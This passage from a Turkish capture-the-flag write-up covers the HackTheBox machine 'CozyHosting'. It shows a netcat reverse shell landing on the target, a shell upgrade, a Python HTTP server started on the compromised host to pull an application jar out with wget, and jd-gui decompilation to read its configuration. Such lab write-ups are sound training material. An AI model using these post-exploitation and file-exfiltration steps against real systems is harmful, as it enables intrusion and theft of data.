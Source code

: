 Bu işlemlerin ardından `Send` tuşuna bastığımda Netcat dinleyici üzerinde shell elde edebildim:

```text title="Output"
listening on [any] 4444 ...
connect to [10.10.14.45] from (UNKNOWN) [10.10.11.230] 43212
bash: cannot set terminal process group (1063): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$
```

Hemen arkasından shell yükseltmesi yaparak daha sağlam bir TTY elde ettim ve böylece komut çalıştırırken alınabilecek hataları en aza indirgemiş oldum.

Bulunduğum dizinin içeriğini kontrol ettiğimde `cloudhosting-0.0.1.jar` isimli bir dosya ile karşılaştım. Bu dosyayı yerel makineme indirmek için bu dosyanın bulunduğu dizinde bir Python HTTP sunucusu başlattım:

```bash
python3 -m http.server 8888
```

Ve yerel makinemde ilgili dosyayı indirmek için aşağıdaki komutu kullandım:

```bash
wget http://cozyhosting.htb:8888/cloudhosting-0.0.1.jar
```

Bu dosya ile çalışabilmek için `#!bash jd-gui` isimli kod çözücü (`decompiler`) aracını kullandım:

```bash
jd-gui cloudhosting-0.0.1.jar
```

Açılan uygulamada `BOOT-INF` --> `classes` --> `application.properties` yolunu takip ettiğimde aşağıdaki çıktı ile karşılaştım:

![](../assets/images/cozyhosting/jd-gui.png)
